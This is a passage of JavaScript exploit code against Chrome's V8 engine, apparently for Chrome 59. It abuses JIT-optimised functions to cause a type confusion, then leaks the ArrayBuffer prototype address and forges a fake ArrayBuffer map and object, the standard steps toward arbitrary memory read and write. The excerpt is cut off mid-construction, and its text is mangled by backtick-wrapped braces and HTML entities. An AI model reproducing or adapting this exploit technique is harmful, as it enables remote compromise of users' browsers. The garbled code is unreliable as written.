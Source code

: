 ```
change_elements_kind_array(optimizer3);
map_manipulator3 = new Array(1.1,2.2); 
map_manipulator3.x3 = 0x123;
change_elements_kind_array(map_manipulator3);
map_manipulator3.x3 = `{``}`;
evil3 = new Array(1.1,2.2);
evil3.x3 = `{``}`;
for(var i = 0;i&lt;0x100000;i++)`{`
    change_elements_kind_array(optimizer3);
`}`
/******************************* step 1    read ArrayBuffer __proto__ address   ***************************************/
function change_elements_kind_parameter(a,obj)`{`
    arguments;
    a[0] = obj;
`}`
optimizer4 = new Array(`{``}`); 
optimizer4.x4 = `{``}`;
change_elements_kind_parameter(optimizer4);
map_manipulator4 = new Array(1.1,2.2); 
map_manipulator4.x4 = 0x123;
change_elements_kind_parameter(map_manipulator4);
map_manipulator4.x4 = `{``}`;
evil4 = new Array(1.1,2.2);
evil4.x4 = `{``}`;
for(var i = 0;i&lt;0x100000;i++)`{`
    change_elements_kind_parameter(optimizer4,arraybuffer.__proto__);
`}`
function e4()`{`
    return evil4[0];
`}`
for(var i = 0;i&lt;0x100000;i++)`{`
    e4();
`}`
change_elements_kind_parameter(evil4,arraybuffer.__proto__);
ab_proto_addr = u2d(e4());
var nop = 0xdaba0000;
var ab_map_obj = [
    nop,nop,
    0x1f000008,0x000900c3,   //chrome 59
    //0x0d00000a,0x000900c4,  //chrome 61
    0x082003ff,0x0,
    nop,nop,   // use ut32.prototype replace it
    nop,nop,0x0,0x0
]
ab_constructor_addr = ab_proto_addr - 0x70;
ab_map_obj[0x6] = ab_proto_addr &amp; 0xffffffff;
ab_map_obj[0x7] = ab_proto_addr / 0x100000000;
ab_map_obj[0x8] = ab_constructor_addr &amp; 0xffffffff;
ab_map_obj[0x9] = ab_constructor_addr / 0x100000000;
float_arr = [];
gc();
var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(ab_map_obj,ab_map_obj_float);
/******************************* step 2    read fake_ab_map_ address   ***************************************/
change_elements_kind_parameter(evil4,ab_map_obj_float);
ab_map_obj_addr = u2d(e4())+0x40;
var fake_ab = [
    ab_map_obj_addr &amp; 0xffffffff, ab_map_obj_addr / 0x100000000,
    ab_map_obj_addr &amp; 0xffffffff, ab_map_obj_addr / 0x100000000,
    ab_map_obj_addr &amp; 0xffffffff, ab_map_obj_addr / 0x100000000,
    0x0,0x4000, /* buffer length */
```